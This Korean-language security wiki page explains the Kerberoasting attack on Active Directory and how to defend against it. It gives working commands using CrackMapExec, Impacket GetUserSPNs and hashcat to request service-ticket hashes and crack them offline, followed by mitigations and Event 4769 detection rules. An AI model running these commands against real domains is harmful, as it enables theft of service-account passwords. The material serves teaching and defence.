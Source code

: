 ```yaml
---
description: MITRE ATTACK - T1558.003
---
```


# 커버로스팅 (Kerberoasting)

커버로스팅은 2014년도 DerbyCon 컨퍼런스에서 Tim Medin 이 발표한 액티브 디렉토리 포스트 익스플로잇 도메인 권한 상승 공격이다.&#x20;

커버로스는 기본적으로 어떤 도메인 유저던 간에 Service Principal Name (SPN) 특성이 존재하는 서비스 유저를 상대로 한 Service Ticket  (서비스 티켓) 을 TGS(Ticket Granting Service)를 통해요청하고 받아낼 수 있다. 커버로스팅은이 서비스 티켓은 서비스 유저의 NTLM 해시로 암호화 되어 있다. 따라서 `KRB_TGS_REPTGS` 를 받아 서비스 티켓을 추출한 뒤, 이를 메모리상에서 빼내서 오프라인 브루트 포스 공격을 감행해 TGS가 복호화가 된다면 서비스 유저의 비밀번호를 찾아내는 공격이다.

### 개념&#x20;

1. 모든 도메인 유저는 SPN 특성이 존재하는 서비스 유저의 서비스 티켓을 도메인 컨트롤러에게 요청한 뒤 받을 수 있다.
2. KDC는 공격자가 해당 서비스에 접근 권한이 있는지 없는지 확인하지 않는다. 사용자가 제대로된 TGT를 가지고 있고 서비스 티켓을요청을 한다면, KDC 는 그에 맞는 서비스 티켓을 반환할 뿐이다.&#x20;
3. 공격자에게 반환된 TGS는 서비스 유저 계정의 NTLM 해시화된 비밀번호로 RC4-HMAC (혹은 AES256) 암호화가 되어있다. 공격자는 서비스 티켓을 메모리에서 추출한 뒤 브루트포스 공격 혹은 사전 공격을 진행한다. 비밀번호 사전으로 NTLM 해시를 만들고, 그 NTLM 해시로 서비스 티켓을 복호화 하는데 성공한다면 서비스 계정의 비밀번호를 알아낸 것과 다름이 없게된다.

### 환경 준비&#x20;

도메인 내에 서비스 유저 계정을 만든 뒤, SPN 특성을 부여해준다.&#x20;

```powershell
net user sqladmin Password123! /domain /add 
setspn -A <서비스_이름>/<호스트_FQDN>:<포트> <서비스_계정_이름>

setspn -A MSSQL/dc01.choi.local:31337 sqladmin
```

### 공격

다양한 툴로 커버로스팅 공격을 실행한 뒤, 서비스 티켓을 base64+해시 형태로 받아온다. 그 뒤, 브루트포스와 서비스 티켓 복호화 공격을 실행한다.&#x20;

{% tabs %}
{% tab title="리눅스" %}
CrackMapExec (cme) 나 Impacket의 GetUserSPNs.py를 이용&#x20;

```
# CrackMapExec
cme ldap 192.168.40.150 -u low -p 'Password123!' -d choi.local --kerberoasting kerberoast.hashes

# CrackMapExec - hash
cme ldap 192.168.40.150 -u low -H <NT해시>--kerberoast kerberoast.hashes 

# Impacket - GetUSersSPNs
impacket-GetUserSPNs -request 'choi.local/low:Password123!' -outputfile kerberoast.hash

# impacket - GetUsersSPNs - hash 
impacket-GetUserSPNs -request 'choi.local/low' -hashes <LM해시>:<NT해시> -outputfile kerberoast.hash
```
{% endtab %}

{% tab title="윈도우" %}

{% endtab %}
{% endtabs %}

큰 환경에서 커버로스팅 공격을 실행하면 같은 서비스 유저의 TGS가 중복으로 반환될때가 있다. 특정 서비스 유저의 서비스 티켓은 하나의 NTLM 해시로 암호화 되었기 때문에 중복된 TGS를 모두 복호화할 필요는 없다. 하나만 복호화가 되도 유저의 평문 비밀번호를 알아낸 것이다. 따라서 유저의 이름과 도메인을 기반으로 중복 TGS를 지운다.&#x20;

```
# 3번째 필드 - 유저 이름을 기반으로 TGS를 지운다. 
cat kerberoast.hashes | sort -u -k 3,3 -k 4,4
```

### 브루트포스와 TGS 복호화&#x20;

hashcat이나 johntheripper를 사용해 NTLM 해시를 만들고, 복호화하는 브루트포스를 실행한다.&#x20;

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.hashes .\rockyou.txt
```

## 대응 방안&#x20;

1. [Managed Service Account](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/managed-service-accounts-understanding-implementing-best/ba-p/397009) (MSA) 및  [Group Managed Service Account](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) (gMSA) 기능을 사용해 자동적으로 강력한 비밀번호가 설정되도록 한다.&#x20;
2. MSA/gMSA 기능을 사용하지 못할 경우 수동으로 강력한 비밀번호를 설정한다.&#x20;
3. [Fine-Grained Password Policy](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/adac/introduction-to-active-directory-administrative-center-enhancements--level-100-#bkmk\_create\_fgpp) (FGPP)를 사용해 서비스 계정에 약한 비밀번호가 설정되는 것을 차단한다.&#x20;
4. 다음의 GPO를 사용해 서비스 티켓  암호화를 약한 RC4-HMAC이 아닌 AES256로 설정한다.&#x20;

```
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network Security: Configure encryption types allowed for Kerberos 

AES256_HMAC_SHA1 설정
```

### 탐지 방안&#x20;

다음의 탐지 방안은 많은 숫자의 로그를 생성할 수 있으니 프로덕션에 적용하기 전 충분한 테스트를 거쳐야한다.&#x20;

서비스 티켓발급 현황을 로깅하는 다음의 GPO를 설정한다. 이는 Event 4769 - Kerberos Service Ticket was Requested 이벤트를 로깅한다.&#x20;

```
Default Domain Controllers Policy/Computer Configuration/Policies/Windows Settings/Security Settings/Advanced Audit Policy Configuration/Audit Policies/Account Logon/Audit Kerberos Service Ticket Operations - Success
```

이후, 다음의 로직을 기반으로 SOC 알람을 설정한다.&#x20;

1. 이벤트 아이디 4769 중 `Ticket Encryption Type: 0x17` (RC4-HMAC)이 보인다.&#x20;
2. 낮은 권한의 도메인 유저가 빠른 시간 (1\~2분) 내에 대량의 0x17 암호화된 TGS를 요청한다.



### 레퍼런스&#x20;

{% embed url="https://en.hackndo.com/kerberoasting/" %}
&#x20;
{% endembed %}

{% embed url="https://adsecurity.org/?p=3458" %}

{% embed url="https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797" %}
